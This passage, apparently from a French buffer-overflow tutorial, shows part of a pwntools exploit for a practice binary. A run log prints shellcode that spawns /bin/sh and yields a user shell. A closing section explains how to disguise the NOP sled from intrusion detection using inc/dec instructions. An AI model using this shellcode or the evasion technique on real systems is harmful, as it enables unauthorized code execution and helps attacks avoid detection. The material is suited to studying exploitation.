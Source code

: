 ``` python
print("Payload = ", payload) # j'adore voir cette suite d'octets s'afficher ;-)


f= open("payload.bin","wb") # juste pour sauvegarder mon payload dans un fichier pour pouvoir le rejouer en DEBUG plus tard dans IDA
f.write(payload)
f.close()

proc.send(payload)

proc.interactive()
```

>**et un shell tout chaud, un ...**

``` bash
$ python3 ./exploit.py

[+] Starting program './BUF': Done
Création de l'exploit:

[*] Switching to interactive mode

$ id
Vous avez fait un don de -1869574000 euros a l'ONG Payload =  b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xbd\xd0\xff\xff\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'

$

$ id
uid=1000(naptax) gid=1000(naptax) groups=1000(naptax),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),134(lxd),135(sambashare)

```

### Dissimuler son tapis de NOP

Notons que les différents IDS trouveront suspicieux cette suite de NOP. En effet, il est rare qu'une telle suite soit nécéssaire pour une exécution souhaitée. C'est pourquoi, il faut mieux opter pour d'autres instructions d'un octet plus neutres pour faire avancer le flux d'éxécution vers notre Shellcode. En voici une fiable et simple:

Mettre des registres à zéro, puis enchainer les instructions **inc** et **dec** de telle manière à ce que le flux avance et les valeurs des registres restent à 0 à la fin du train. Exemple avec eax

``` nasm
    xor eax, eax
    inc eax     ' 0x40
    dec eax     ' 0x48
    inc eax     ' 0x40
    dec eax     ' 0x48
    inc eax     ' 0x40
    dec eax     ' 0x48
(...)
``` 
Remplacez vos 0x90 0x90 par une série de 0x40 0x48. Cela signe un peu moins comme une signature de Sled. 
